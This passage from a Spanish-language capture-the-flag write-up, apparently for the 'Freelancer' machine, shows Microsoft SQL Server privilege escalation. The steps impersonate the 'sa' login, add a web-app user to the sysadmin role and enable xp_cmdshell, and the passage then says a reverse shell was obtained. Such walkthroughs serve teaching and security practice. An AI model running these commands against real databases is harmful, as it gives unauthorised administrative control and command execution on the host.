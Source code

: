 #### 3. Conceder privilegios a otro usuario
```sql
EXECUTE AS LOGIN = 'sa';
EXEC sp_addsrvrolemember 'Freelancer_webapp_user', 'sysadmin';
```
- **`EXEC sp_addsrvrolemember`**: Agrega al usuario `Freelancer_webapp_user` al rol `sysadmin`, otorgándole privilegios administrativos.

#### 4. Confirmar la membresía en el rol `sysadmin`
```sql
SELECT IS_SRVROLEMEMBER('sysadmin');
```
- Verifica si `Freelancer_webapp_user` ahora tiene privilegios de `sysadmin`.

### Habilitar `xp_cmdshell`
Para habilitar **xp_cmdshell**, ejecutamos los siguientes comandos:

```sql
EXEC sp_configure 'show advanced options', '1';
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', '1';
RECONFIGURE;
```

Finalmente, logramos obtener nuestra **reverse shell**.

<figure>
<img src="/assets/img/Freelancer/imagen40.png" alt="Reverse Shell Obtenida">
</figure>

---

## Enumeración de Usuarios y Verificación de Credenciales
